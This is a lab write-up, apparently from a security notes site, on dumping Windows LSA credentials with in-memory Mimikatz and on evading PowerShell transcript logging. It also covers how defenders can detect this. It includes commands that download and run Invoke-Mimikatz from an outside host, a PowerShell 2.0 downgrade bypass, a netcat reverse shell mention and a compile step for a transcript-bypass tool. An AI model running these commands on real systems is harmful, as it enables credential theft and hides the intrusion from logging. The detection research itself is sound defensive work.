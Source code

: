 ```yaml
---
description: >-
  Local Security Authority (LSA) credential dumping with in-memory Mimikatz
  using powershell.
---
```


# Local Security Authority

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Hashes and plain text passwords of the compromised system are dumped to the console:

![](../../.gitbook/assets/pwdump-mimikatz-results.png)

## Observations

The process commandline is blatantly showing what is happening in this case, however, you should assume that file names and script argument names will be changed/obfuscated by a sophisticated attacker:

![victim host inspection](../../.gitbook/assets/pwdump-mimikatz.png)

As a defender, if your logs show a script being downloaded and executed in memory in a "relatively" short timespan, this should raise your suspicion and the host should be investigated further to make sure it is not compromised:

![](../../.gitbook/assets/pwdump-mimikatz-sysmon.png)

### Transcript Logging \#1

PowerShell transcript logging should allow you to see the commands entered into the console and their outputs, however I got some unexpected results at first.

For the first test, I setup transcript logging in my powershell \(version 2.0\) profile:

{% code-tabs %}
{% code-tabs-item title="C:\\Users\\mantvydas\\Documents\\WindowsPowerShell\\Microsoft.PowerShell\_profile.ps1" %}
```bash
Start-Transcript -Path C:\transcript.txt
```
{% endcode-tabs-item %}
{% endcode-tabs %}

{% hint style="warning" %}
Note that enabling transcription logging is not recommended from powershell profiles, since `powershell -nop` will easily bypass this defence - best if logging is enabled via GPOs.
{% endhint %}

### Cannot Start Transcript

First thing I noticed was that if at least one powershell instance was already running on the victim system, the transcript could not be started \(assume because the file is in use already\), which makes sense, but is not helpful for the victim at all:

![](../../.gitbook/assets/pwdump-transcript-cant-start.png)

This could be fixed by amending the PS profile so that the the transcript gets saved to a file the OS chooses itself rather than hardcoding it or in other words, doing `Start-Transcript` without specifying the path will do just fine.

### Empty Transcript - Weird

Below shows three windows stacked - top to bottom: 

1. Attacker's console via a netcat reverse shell using cmd.exe, issuing a command to dump credentials with mimikatz powershell script. Note how it says that the transcript was started and the mimikatz output follows;
2. **Empty \(!\)** transcript logging file transcript.txt on the victim system;
3. Process explorer on the victim system showing the process ancestry of the reverse shell cmd.exe PID `616` which had spawned the powershell process \(mentioned in point 1\) that ran the mimikatz script;

![](../../.gitbook/assets/pwdump-transcript-empty.png)

As can be seen from the above screenshot, the transcript.txt is empty although mimikatz ran successfully and dumped the credentials.   
  
This brings up a question if I am doing something wrong or if this is a limitation of some sort in transcript logging, so I will be trying to:

* dump credentials from a different process ancestry
* dump credentials locally on the victim system \(as if I was doing it via RDP\)
* upgrade powershell to 5.0+

### Dumping Credentials Locally

This works as expected and the transcript.txt gets populated with mimikatz output:

![](../../.gitbook/assets/pwdump-mimikatz-transcript.png)

### Dumping Credentials From a Different Process Ancestry

Tried dumping creds from the ancestry:   
`powershell > nc > cmd > powershell` instead of `cmd > nc > cmd > powershell` - to no avail.

### Transcript Logging \#2

I have updated my Powershell version from 2.0 to 5.1 and repeated credential dumping remotely `(cmd > nc > cmd > powershell)` process ancestry, same like the first time, where the transcript.txt came back empty. This time, however, the results are different - the output is logged this time:

![Powershell 5.1 transcribing powershell console remotely with no issues](../../.gitbook/assets/pwdump-transcript-working.png)

### Back to PowerShell 2.0

Even though the victim system now has Powershell 5.0 that is capable of transcript logging, we can abuse the `-version 2` switch of the powershell.exe binary like so: 

```bash
powershell -version 2 IEX (New-Object System.Net.Webclient).DownloadString('http://10.0.0.5/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds
```

 ... and the transcript will again become useless:

![](../../.gitbook/assets/pwdump-ps2-no-transcript.png)

This abuse, however, allows defenders to look for logs showing commandline arguments that suggest powershell is being downgraded and flag them as suspicious activity:

![](../../.gitbook/assets/pwdump-powershell-downgrade.png)

### Bypassing w/o Downgrading

Another technique allowing to bypass the transcript logging without downgrading is possible by using a compiled c\# program by [Ben Turner](https://gist.githubusercontent.com/benpturner/d62eb027a518b3743520a34d3aecb915/raw/32d96dafe148c784706b0dc7ed1d0fbbab51c354/posh.cs):

{% file src="../../.gitbook/assets/posh.cs" caption="Transcript Bypass without Downgrade - C\#" %}

Compile the code .cs code:

```csharp
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /out:C:\experimemts\transcript-bypass\bypass.exe C:\experiments\transcript-bypass.cs /reference:System.Management.Automation.dll
```

If you are having problems locating the `System.Management.Automation.dll` - you can find its location by using powershell: `PS C:\Users\mantvydas> [psobject].assembly.location`

We can then launch the transcript-bypass and use powershell and not worry about the transcript, because although the file will be created, it will be showing this:

![](../../.gitbook/assets/pwdump-bypass-no-downgrade.png)

I wanted to check if I could find any traces of non-powershell.exe processes creating transcript files in the logs, so I updated the sysmon config:

{% code-tabs %}
{% code-tabs-item title="sysmonconfig.xml" %}
```markup
<FileCreate onmatch="include">
    <TargetFilename condition="end with">.txt</TargetFilename>
</FileCreate>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

...and while I could see powershell.exe creating transcript files:

![](../../.gitbook/assets/powershell-transcript-logs.png)

I could not get sysmon to log the transcript.txt file creation event caused by the `bypass.exe` although the file got successfully created!

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1003" %}

{% embed url="https://www.fireeye.com/blog/threat-research/2016/02/greater\_visibilityt.html" %}

